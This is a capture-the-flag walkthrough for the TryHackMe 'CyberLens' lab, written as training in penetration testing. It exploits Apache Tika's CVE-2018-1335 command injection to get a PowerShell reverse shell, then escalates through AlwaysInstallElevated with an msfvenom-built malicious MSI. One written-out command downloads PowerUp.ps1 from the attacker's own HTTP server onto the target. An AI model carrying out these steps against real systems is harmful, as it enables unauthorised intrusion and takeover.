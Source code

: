 # CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration:

![](./screenshots/ping.png)

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

![](./screenshots/nmapquick.png)

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

![](./screenshots/nmapdetails.png)

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

![](./screenshots/webroot.png)

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

![](./screenshots/extractor.png)

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

![](./screenshots/options.png)

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

![](./screenshots/nmap61777.png)

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is [an article from Rhino Security Labs](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/){:target="_blank"}, written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

![](./screenshots/googletika.png)

I ended up using the exploit from [the Rhino Security Labs github](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335){:target="_blank"}, written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have [a forked version](https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py){:target="_blank"} that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

![](./screenshots/exploit.png)

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

![](./screenshots/powerup.png)

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

![](./screenshots/regquery.png)

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

![](./screenshots/msfvenom.png)

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

![](./screenshots/rooted.png)

Thanks to TeneBrae93 for the creation of this challenge!
